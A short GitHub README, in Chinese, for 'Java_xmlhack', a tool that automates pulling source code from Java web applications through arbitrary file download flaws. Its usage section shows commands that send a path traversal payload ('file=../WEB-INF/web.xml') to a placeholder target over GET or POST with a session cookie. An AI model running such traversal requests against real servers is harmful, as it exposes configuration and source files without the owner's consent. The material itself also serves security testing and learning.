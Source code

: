# Java_xmlhack
帮助java环境下任意文件下载情况自动化读取源码的小工具

## 想法

[关于Java任意文件读取的学习](https://art3mis.top/2019/04/04/%e5%85%b3%e4%ba%8ejava%e7%9a%84%e4%bb%bb%e6%84%8f%e6%96%87%e4%bb%b6%e8%af%bb%e5%8f%96/)

## 使用
```bash
git clone https://github.com/Artemis1029/Java_xmlhack.git
cd Java_xmlhack
# if get
python xmlsearch.py -u https://xxx.xxx/?file=../WEB-INF/web.xml -c="cookie"
# if post
python xmlsearch.py -u https://xxx.xxx/ -d="file=../WEB-INF/web.xml" -t="content-type(default application/x-www-form-urlencoded)" -c="cookie"
```
![1](https://i.loli.net/2019/04/05/5ca728049a7fb.jpg)

![2](https://i.loli.net/2019/04/05/5ca7283ee522d.jpg)
